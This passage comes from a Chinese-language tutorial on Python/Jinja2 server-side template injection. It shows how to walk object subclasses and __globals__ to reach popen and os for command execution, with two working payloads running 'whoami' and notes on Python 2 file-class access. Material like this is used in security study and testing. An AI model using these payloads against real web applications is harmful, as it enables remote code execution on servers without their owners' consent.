 ![img](https://gitee.com/eviden/img/raw/master/202406141122688.png)

![img](https://gitee.com/eviden/img/raw/master/202406141122821.png)

tips：后面的各种方法都是利用这种思路寻找到可以getshell类的位置

#### python3的方法

- `os._wrap_close`类中的`popen`

在上面的例子中就是用的这个方法，payload如下

```go
{{"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()}}
```

- `__import__`中的`os`

把上面`find.py`脚本中的search变量换成`__import__`

![img](https://gitee.com/eviden/img/raw/master/202406141122805.png)

可以看到有5个类下是包含`__import__`的，随便用一个即可

payload如下

```go
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
```

#### python2的方法

因为python3和python2两个版本下有差别，这里把python2单独拿出来说

tips：python2的`string`类型不直接从属于属于基类，所以要用两次 `__bases__[0]`

![img](https://gitee.com/eviden/img/raw/master/202406141122011.png)

- `file`类读写文件

本方法只能适用于python2，因为在python3中`file`类已经被移除了

![img](https://gitee.com/eviden/img/raw/master/202406141122392.png)

可以使用dir查看file对象中的内置方法

```go
>>> dir(().__class__.__bases__[0].__subclasses__()[40])



['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

